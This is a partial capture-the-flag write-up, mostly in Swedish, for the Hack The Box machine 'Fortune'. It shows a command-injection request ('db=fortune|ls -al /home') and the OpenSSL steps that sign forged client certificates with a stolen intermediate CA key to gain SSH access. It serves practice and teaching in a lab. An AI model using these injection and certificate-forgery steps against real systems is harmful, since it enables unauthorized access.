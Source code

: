 ```yaml
---
title: Fortune - Hack The Box
author: "0xPThree"
description: "Partial writeup.. "
date: 2019-06-25
image: images/fortune_logo.png
categories: [hackthebox, ]
format: html
editor: visual
jupyter: python3
toc: true
---
```


![](images/fortune_logo.png){: style="float: right; width: 200px; margin-left: 2em"}

N/A<br><br><br><br><br><br><br>

----------------


# USER
## Enumeration
Basic enum shows port **22,80,443**. 443 har cert error, 80 anropar en db med fortunes, 22 saknar vi creds för

`dirb` visar inget spännande. Kör en crawl/audit i burp på `http://10.10.10.127` och ser att den är vulnerable för os command- och code injection.

Skickar POST Request till Repeater och söker mig runt i burken efter cert filer och användare:
```bash
POST /select HTTP/1.1
Host: 10.10.10.127
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US,en-GB;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.100 Safari/537.36
Connection: close
Cache-Control: max-age=0
Referer: http://10.10.10.127/
Content-Type: application/x-www-form-urlencoded
Content-Length: 23

db=fortune|ls -al /home
```

Hittar 3 användare: `bob`, `charlie` och `nfsuser`. `Bob` har massor av cert-filer vilket känns intressant. `Charlie` kommer man ej åt så chansar att `user.txt` finns här. `nfsuser` har en mer eller mindre tom hemkatalog

Plockar hem alla filer från bob så jag har följade filstruktur:
```bash
$ tree
.
├── bob
│   ├── ca
│   │   ├── certs
│   │   │   └── ca.cert.pem
│   │   ├── index.txt
│   │   ├── index.txt.attr
│   │   ├── intermediate
│   │   │   ├── certs
│   │   │   │   ├── ca-chain.cert.pem
│   │   │   │   ├── fortune.htb.cert.pem
│   │   │   │   ├── intermediate.cert.pem
│   │   │   │   └── intermediate.cert.srl
│   │   │   ├── crlnumber
│   │   │   ├── csr
│   │   │   │   ├── fortune.htb.csr.pem
│   │   │   │   └── intermediate.csr.pem
│   │   │   ├── index.txt
│   │   │   ├── newcerts
│   │   │   │   └── 1000.pem
│   │   │   ├── openssl.cnf
│   │   │   └── private
│   │   │       └── intermediate.key.pem
│   │   ├── newcerts
│   │   │   └── 1000.pem
│   │   ├── openssl.cnf
│   │   ├── serial
│   │   └── serial.old
│   └── dba
│       └── authpf.sql
```

För enkelhet skapa en dir som heter custom-certs utanför dir bob. Skapa custom cert-key samt request för bob och charlie (subj-info tagen från `bob/ca/index.txt` samt `bob/ca/intermediate/index.txt`) i nyskapade custom-cert dir'en:
```bash
openssl req -newkey rsa:4096 -keyout bob_key.pem -out bob_csr.pem -nodes -days 365 -subj "/C=CA/ST=ON/O=Fortune Co HTB/CN=Fortune Intermediate CA/emailAddress=bob@fortune.htb"

openssl req -newkey rsa:4096 -keyout charlie_key.pem -out charlie_csr.pem -nodes -days 365 -subj "/C=CA/ST=ON/O=Fortune Co HTB/CN=fortune.htb/emailAddress=charlie@fortune.htb"
```

Döp om filerna för enkelhetensskull:
```bash
mv bob_key.pem bob.key && mv bob_csr.pem bob.csr
mv charlie_key.pem charlie.key && mv charlie_csr.pem charlie.csr
```
```bash
$ ls -al
total 24
drwxr-xr-x 1 root root  108 Jun 26 14:25 .
drwxr-xr-x 1 root root  196 Jun 26 14:10 ..
-rw-r--r-- 1 root root 1716 Jun 26 14:11 bob.csr
-rw------- 1 root root 3272 Jun 26 14:11 bob.key
-rw-r--r-- 1 root root 1704 Jun 26 14:12 charlie.csr
-rw------- 1 root root 3272 Jun 26 14:12 charlie.key
```

Signera certificate requests med intermediate.key (pwd = htb/machines/fortune/custom-certs):
```bash
openssl x509 -req -days 365 -in bob.csr -CA ../bob/ca/intermediate/certs/intermediate.cert.pem -CAkey ../bob/ca/intermediate/private/intermediate.key.pem -CAcreateserial -out bob.crt

openssl x509 -req -days 365 -in charlie.csr -CA ../bob/ca/intermediate/certs/intermediate.cert.pem -CAkey ../bob/ca/intermediate/private/intermediate.key.pem -CAcreateserial -out charlie.crt
```

Konvertera .crt till .p12 för att kunna använda dem i Firefox, lämna password blankt (pwd = htb/machines/fortune/custom-certs):
```bash
openssl pkcs12 -export -out bob.p12 -inkey bob.key -in bob.crt -certfile ../bob/ca/intermediate/certs/intermediate.cert.pem
openssl pkcs12 -export -out charlie.p12 -inkey charlie.key -in charlie.crt -certfile ../bob/ca/intermediate/certs/intermediate.cert.pem
```

Importera charlie.p12 i Firefox och surfa in på https://10.10.10.127 för att få SSH key pair<br>
`options -> preferences -> advanced -> certificates -> view certificates -> your certificates -> import -> select charlie.p12 -> ok`

Tryck på "generate" och spara ner public key i `/root/.ssh/id_rsa.pub` (perm 644) samt private i `/root/.ssh/id_rsa` (perm 600)

Logga in som nfsuser med public key.
`ssh nfsuser@10.10.10.127`

